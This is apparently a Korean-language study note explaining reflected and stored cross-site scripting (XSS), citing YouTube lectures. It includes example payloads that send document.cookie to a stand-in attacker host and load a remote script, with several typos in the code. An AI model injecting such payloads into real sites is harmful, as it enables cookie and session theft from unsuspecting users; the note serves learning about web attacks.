


# Croxx Site Scripting (XSS)

JavaScript의 취약성을 이용한 공격
클라이언트(사용자) 쪽의 웹 브라우저 특성을 이용한 공격하는 기법입니다. 

웹 브라우저는 웹페이지에 있는 스크립트의 정확한 출처를 알 수 없기 때문에 그대로 실행할 수 밖에 없습니다. 이런 취약점을 이용한 공격이 XSS 입니다.

현대의 모던 브라우저는 대부분 잘 알려진 공격에 대한 대응책을 지원하고 있습니다. 하지만 기본적인 공격 원리를 이해하는 것도 중요합니다.

- Javascript 소개
  - 웹 페이지의 동적 기능 구현을 담당
  - 작성 예시
  ```{javascript}
  <!-- 사용자 컴퓨터에 저장된 쿠키 정보 취득 -->
  <script>
    alert('공격이 시작됩니다^^')
    document.loaction = 'http://hacker.com/cookie?' + document.cookie
  <script>
  
  <!-- 웹 브라우저를 실행하면 자동으로 악성 코드를 실행 -->
  <script src='http://hacker.com/attack.js?'><script>
  ```
- 

## Reflcted XSS



이미지 출처: [[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?](https://youtu.be/jvS45jdz1ao)

[Reflected XSS](imgs/XSS_reflected_scenario_06.png)


## Stored XSS

서버의 게시판과 같이 글을 남길 수 있는 영역에 JavaScript를 남겨 놓으면 (저장하면, 즉 store 하면), 아무것도 모르는 사용자가 방문했을 경우 JavaScript가 자동으로 실행되도록 하는 공격입니다.

예를 들면 게시판에 다음과 같은 JavaScript를 남겨 놓을 수 있습니다.

```{javascript}
<script>
    let xmlHttp = new XMLHttpRequest();
    const url = "http://haker.com?victimCookie=" + document.cookie;
    xmlHttp.open('GET', url);
    xmlHttp.send();
</script>
```

실행 순서는 다음과 같습니다.



위 그림에서 4번까지 공격이 진행되면 이후 공격은 Reflected XSS 공격과 마찬가지로 해당 쿠키 정보를 이용하여 악의적 행위를 진행합니다.

이미지 출처: [[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?](https://youtu.be/jvS45jdz1ao)


# References
|Title|Author|Source|Link|
|:--|:--|:--|:--|
|[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?|버그잡는 해커|Youtube|[link](https://youtu.be/jvS45jdz1ao)|
|크로스 사이트 스크립팅, XSS|코드없는 프로그래밍|Youtube|[link](https://youtu.be/LfI6TAchgT4)|